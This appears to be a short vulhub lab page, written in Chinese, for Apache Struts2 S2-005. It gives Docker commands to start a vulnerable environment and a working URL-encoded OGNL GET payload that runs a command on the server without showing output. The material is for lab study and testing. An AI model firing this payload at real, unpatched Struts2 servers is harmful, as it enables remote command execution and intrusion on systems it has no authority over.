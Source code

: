 ```bash
git clone https://github.com/vulhub/vulhub.git
cd vulhub/struts2/s2-005
docker-compose up -d
```

访问 `http://your-ip:8080` ，查看如下页面

![s2-005-1](images/s2-005-1.png)

无回显命令执行 PoC (GET)

```
(%27%5cu0023_memberAccess[%5c%27allowStaticMethodAccess%5c%27]%27)(vaaa)=true&(aaaa)((%27%5cu0023context[%5c%27xwork.MethodAccessor.denyMethodExecution%5c%27]%5cu003d%5cu0023vccc%27)(%5cu0023vccc%5cu003dnew%20java.lang.Boolean(%22false%22)))&(asdf)(('%5cu0023rt.exec(%22touch@/tmp/success%22.split(%22@%22))')(%5cu0023rt%5cu003d@java.lang.Runtime@getRuntime()))=1
```

![s2-005-2](images/s2-005-2.png)